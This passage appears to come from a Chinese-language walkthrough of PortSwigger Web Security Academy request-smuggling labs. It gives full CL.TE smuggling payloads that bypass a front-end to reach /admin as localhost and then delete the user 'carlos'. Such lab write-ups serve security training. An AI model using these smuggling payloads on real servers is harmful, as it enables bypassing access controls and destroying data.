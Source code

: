发送2次后回显Admin interface only available if logged in as an administrator, or if requested as localhost，我们在走私的部分加上localhost并更新CL长度

```http
POST / HTTP/1.1
Host: acf91f491f39aa83ca24ee71001b00aa.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 45
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost


```

![image-20220319173003409](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220319173003409.png)

得到删除carlos的api /admin/delete?username=carlos，继续修改payload

```http
POST / HTTP/1.1
Host: acf91f491f39aa83ca24ee71001b00aa.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 68
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost


```

一定注意\r\n数量和CL的大小

#### 泄露代理服务器重写字段

https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting
